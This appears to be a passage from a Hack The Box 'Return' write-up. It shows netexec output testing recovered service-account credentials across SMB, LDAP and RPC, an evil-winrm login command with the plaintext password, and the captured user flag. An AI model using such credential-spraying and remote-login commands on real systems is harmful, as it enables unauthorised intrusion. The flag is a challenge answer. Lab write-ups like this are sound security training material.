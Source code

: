 ```bash
SMB         10.129.165.239  445    PRINTER          [*] Windows 10 / Server 2019 Build 17763 x64 (name:PRINTER) (domain:return.local) (signing:True) (SMBv1:False)
LDAP        10.129.165.239  389    PRINTER          [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)

[*] Checking if rdp port 3389 is open on return.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on return.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.129.165.239  135    PRINTER          [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
RPC         10.129.165.239  135    PRINTER          [+] return.local\svc-printer:1edFg43012!! 

[*] Checking if nfs port 2049 is open on return.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on return.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on return.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on return.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on return.htb...
[-] Skipping mssql — port 1433 is closed
```
it seems that with these creds, we can login only to `WINRM` and `LDAP`

login via winrm
```bash
evil-winrm -i return.htb -u 'svc-printer' -p '1edFg43012!!'
```
grabbed user flag! `728d332c51cc0ce7d44fdad354169b54`

proof
![](MediaFiles/image%204%201.png)

---
